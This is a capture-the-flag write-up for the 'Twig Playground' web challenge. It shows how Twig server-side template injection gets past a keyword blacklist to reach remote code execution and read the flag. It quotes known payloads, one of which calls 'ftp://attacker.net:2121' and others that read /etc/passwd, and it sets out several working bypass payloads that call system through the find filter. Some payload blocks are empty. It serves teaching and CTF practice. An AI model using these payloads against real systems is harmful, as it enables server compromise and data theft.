





# Twig Playground

|              |                                                                                    |
| ------------ | ---------------------------------------------------------------------------------- |
| **CTF**      | [Cyberspace CTF](https://play.csc.tf/) [(CTFtime)](https://ctftime.org/event/2428) |
| **Author**   | [0xM4hm0ud](https://github.com/0xM4hm0ud)                                          |
| **Category** | Web                                                                                |
| **Solves**   | 7                                                                                  |
| **Files**    | [handout_twig-playground.zip](handout_twig-playground.zip)                         |



# Solution

We received a ZIP file containing the source code. Let's open the ZIP file and review the source code.

Upon opening, we see a structure like this:



Let's take a look at what's inside the Dockerfile:

```Dockerfile
# Copyright 2020 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
FROM php:8.2.12-cli-alpine as chroot

COPY --from=composer:latest /usr/bin/composer /usr/local/bin/composer

RUN mkdir -p /home/user
WORKDIR /home/user

COPY index.php ./

COPY ./flag /flag
RUN mv /flag /flag-$(head -c 30 /dev/urandom | xxd -p | tr -dc 'a-f' | head -c 10)

RUN composer require twig/twig

FROM gcr.io/kctf-docker/challenge@sha256:0f7d757bcda470c3bbc063606335b915e03795d72ba1d8fdb6f0f9ff3757364f

COPY --from=chroot / /chroot

COPY nsjail.cfg /home/user/
COPY run.sh /chroot/home/user/
RUN chmod +x /chroot/home/user/run.sh

CMD kctf_setup && \
    kctf_drop_privs nsjail --config /home/user/nsjail.cfg -- /home/user/run.sh
```

We can see that the flag follows the format `^flag-[a-f]{10}$`.

Now, let's check the `index.php` file:

```php
// ...

    <div class="container">
        <h1>Twig Playground</h1>
        <form method="post" action="">
            <label for="input">Enter Twig Expression:</label>
            <input type="text" id="input" name="input" placeholder="{{ user.name }} is {{ user.age }} years old."><br>
            <input type="submit" value="Render">
        </form>

        <?php
        ini_set('display_errors', 0);
        ini_set('error_reporting', 0);
        if ($_SERVER['REQUEST_METHOD'] === 'POST') {
            require_once 'vendor/autoload.php';

            $loader = new \Twig\Loader\ArrayLoader([]);
            $twig = new \Twig\Environment($loader, [
                'debug' => true,
            ]);
            $twig->addExtension(new \Twig\Extension\DebugExtension());

            $context = [
                'user' => [
                    'name' => 'Wesley',
                    'age' => 30,
                ],
                'items' => ['Apple', 'Banana', 'Cherry', 'Dragonfruit'],
            ];

            // Ensure no SSTI or RCE vulnerabilities
            $blacklist = ['system', 'id', 'passthru', 'exec', 'shell_exec', 'popen', 'proc_open', 'pcntl_exec', '_self', 'reduce', 'env', 'sort', 'map', 'filter', 'replace', 'encoding', 'include', 'file', 'run', 'Closure', 'Callable', 'Process', 'Symfony', '\'', '"', '.', ';', '[', ']', '\\', '/', '-'];

            $templateContent = $_POST['input'] ?? '';

            foreach ($blacklist as $item) {
                if (stripos($templateContent, $item) !== false) {
                    die("Error: The input contains forbidden content: '$item'");
                }
            }

            try {
                $template = $twig->createTemplate($templateContent);

                $result = $template->render($context);
                echo '<h2>Rendered Output:</h2>';
                echo '<div class="output">';
                echo htmlspecialchars($result);  // Ensure no XSS vulnerabilities
                echo '</div>';
            } catch(Exception $e) {
                echo '<div class="error">Something went wrong! Try again.</div>';
            }
        }
        ?>
    </div>
```

We can see a few interesting things. First of all, error reporting is turned off:

```php
    ini_set('display_errors', 0);
    ini_set('error_reporting', 0);
```

This means we won't see any errors.

We can also see that Twig is used:

```php
$loader = new \Twig\Loader\ArrayLoader([]);
$twig = new \Twig\Environment($loader, [
    'debug' => true,
]);
$twig->addExtension(new \Twig\Extension\DebugExtension());

$context = [
    'user' => [
        'name' => 'Wesley',
        'age' => 30,
    ],
    'items' => ['Apple', 'Banana', 'Cherry', 'Dragonfruit'],
];
```

We notice that `debug` is set to true and the `DebugExtension` is added.

There's also a context that is used later. This data is available for normal use in the challenge, as seen in the HTML:

```html
<form method="post" action="">
  <label for="input">Enter Twig Expression:</label>
  <input
    type="text"
    id="input"
    name="input"
    placeholder="{{ user.name }} is {{ user.age }} years old."
  />
  <br />
  <input type="submit" value="Render" />
</form>
```

Then we see this:

```php
// Ensure no SSTI or RCE vulnerabilities
$blacklist = ['system', 'id', 'passthru', 'exec', 'shell_exec', 'popen', 'proc_open', 'pcntl_exec', '_self', 'reduce', 'env', 'sort', 'map', 'filter', 'replace', 'encoding', 'include', 'file', 'run', 'Closure', 'Callable', 'Process', 'Symfony', '\'', '"', '.', ';', '[', ']', '\\', '/', '-'];

$templateContent = $_POST['input'] ?? '';

foreach ($blacklist as $item) {
    if (stripos($templateContent, $item) !== false) {
        die("Error: The input contains forbidden content: '$item'");
    }
}

try {
    $template = $twig->createTemplate($templateContent);

    $result = $template->render($context);
    echo '<h2>Rendered Output:</h2>';
    echo '<div class="output">';
    echo htmlspecialchars($result);  // Ensure no XSS vulnerabilities
    echo '</div>';
} catch(Exception $e) {
    echo '<div class="error">Something went wrong! Try again.</div>';
}
```

We notice a blacklist with many blocked words, including some interesting ones. The input is passed to createTemplate, and after that, render is called on the template with the context. The result is displayed after being sanitized with `htmlspecialchars`.

Based on the the code, we can infer that we need to find a way to achieve Remote Code Execution (RCE) through Server-Side Template Injection (SSTI) in Twig.

The payloads on HackTricks and PayloadAllTheThings are mostly blocked due to the blacklist, which includes words like `map`, `filter`, `sort`, and `[]`. Additionally, single and double quotes are blocked, making SSTI more difficult.

The interesting part is that `debug` is enabled. When checking the documentation, we find this:



> [!NOTE]
> `DebugExtension` and `debug` were not necessary for this challenge. People solved it without `dump`. I will explain it below.

However, we notice that dump is not blocked, and we can use it to dump the context. So, what can we do with it?

Let's try calling dump with `{{ dump() }}`:



We can see some URL-encoded data. After decoding, it shows:

```
array(2) { ['user']=> array(2) { ['name']=> string(6) 'Wesley' ['age']=> int(30) } ['items']=> array(4) { [0]=> string(5) 'Apple' [1]=> string(6) 'Banana' [2]=> string(6) 'Cherry' [3]=> string(11) 'Dragonfruit' } }
```

So we can see the context that is passed to render.

Now, how do we achieve RCE without using system, map, etc.?

The idea for this challenge came from this [article](https://sec.stealthcopter.com/wpml-rce-via-twig-ssti/).
Credits to the author!

In the article, dump was used with slice to extract specific characters, which were then assigned to variables. Afterward, variables could be combined using `~`.

For example, if we have one variable with `sys` and another with `tem`, we can combine them like this:

```php



```

So, `result` will contain system. This allows us to create strings. Some characters are uppercase, but we can use `lower` to convert them to lowercase. For special characters, you can dump other values instead of the context. For instance, dumping `_charset` gives us `-`, and to get `/`, you can find a newline and use `nl2br`.

After constructing the necessary characters and strings, we want to call them. When checking payloads on HackTricks, we can see a pattern:

```php
#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id',""]|sort('system')}}
```

The first four are useless, but the last four are interesting. They add a command to a sequence, then call a function like filter, map, sort, etc.

When reviewing the documentation for these functions, we see that all are arrow functions. With the known functions in the documentation blocked, we can turn to the source code for potential alternatives:



We find a `public` function called `find`, which is also an arrow function, meaning we can use it.

To bypass `[]`, we can use mappings, which are like `{key: value}`.

My teammate created a script to automatically find all the necessary characters and build the final payload. Thanks to him!

My final payload looks like:

```php































{{ {s:l~s~space~slash}|find(s~y~s~t~e~m) }}
{{ {s:flag}|find(s~y~s~t~e~m) }}
```

First, we create variables for different letters. Then, we also create four more variables for space, hyphen, newline, and slash.

Next, we use mappings and the find function to call any command we want. We first check the filename and then use cat to read the flag.

### Other ways

In hindsight, my method feels a bit overkill. There were some interesting and more efficient payloads by other players. Their solutions were smaller, and some didn’t use dump at all.

**[Jorian's](https://github.com/JorianWoltjer) payload:**

```php
cat %cflag*0%cystem

{{{0: x|first|format(47)}|find(x|last|format(115))}}
```

Jorian used the block feature, placing the desired string inside the blocks. After that, he calls `block(_charset | first)`, which returns `U`, allowing him to call the block he created earlier. He then splits the string into an array and assigns it to x. Using mapping and format, he bypasses the blacklist to call the command he wants. It's a really clever trick that avoids using dump.

**Fredd's payload:**

```php







{{ cmd_arr|find(sstem) }}
```

Fredd first saves `%` to a variable using `json_encode` and `url_encode`. Then, he grabs `c` without using dump, simply slicing the items and finding the correct offset. After that, he combines both to make `%c`. Using format, he builds the string. Essentially, it works like this:

```
{% set cmd = (%c%c%c%c%c%c%c%c%c%c) | format(99, 97, 116, 32, 47, 102, 108, 97, 103, 42) %}
```

This creates the command `cat /flag*`. Then, he creates an array with key values. By using `keys` and `join`, he combines them into a string, and finally, he calls `find` to execute the command.
